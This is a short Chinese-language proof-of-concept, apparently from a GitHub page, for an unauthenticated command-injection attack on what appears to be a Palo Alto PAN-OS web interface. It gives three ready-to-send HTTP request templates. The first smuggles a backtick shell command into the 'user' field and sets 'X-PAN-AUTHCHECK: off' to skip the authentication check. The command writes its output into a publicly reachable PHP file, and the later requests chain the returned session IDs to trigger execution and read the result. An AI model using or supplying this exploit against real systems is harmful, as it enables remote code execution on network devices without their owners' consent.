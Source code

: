 先构造请求得到PHPSESSIONID
```
POST /php/utils/createRemoteAppwebSession.php/pocs.js.map HTTP/1.1
Host: {{Hostname}}
X-PAN-AUTHCHECK: off
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

user=`echo $(uname -a) > /var/appweb/htdocs/unauth/pocs.php`&userRole=superuser&remoteHost=&vsys=vsys1
```
返回数据中有
@start@PHPSESSID=XXXX@end@
XXXX就是需要的东西
接着构造执行代码
```
GET /index.php/.js.map HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=XXXX;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```
返回里还有下一个id YYYY
接着读取执行结果
```
GET /unauth/pocs.php HTTP/1.1
Host: {{Hostname}}
Cookie: PHPSESSID=YYYY;
X-PAN-AUTHCHECK: off
Connection: keep-alive
```

POC描述完了
